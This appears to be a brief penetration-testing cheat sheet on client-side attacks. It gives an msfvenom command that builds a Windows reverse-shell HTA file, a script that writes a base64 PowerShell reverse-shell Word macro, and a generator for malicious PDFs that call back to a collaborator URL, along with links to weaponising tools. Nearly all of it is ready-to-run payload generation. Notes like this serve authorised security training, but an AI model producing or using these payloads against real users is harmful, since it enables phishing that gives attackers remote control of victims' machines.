 # Client-Side Attacks
* [HTA Attack in Action](#hta-attack-in-action)
* [Microsoft Word Macro Attack](#microsoft-word-macro-attack)
* [Malicious PDF](#malicious-pdf)

## HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/


## Malicious PDF
-> Malicious PDF Generator
```
python3 malicious-pdf.py burp-collaborator-url
```
https://github.com/jonaslejon/malicious-pdf

-> evilpdf  
https://github.com/superzerosec/evilpdf
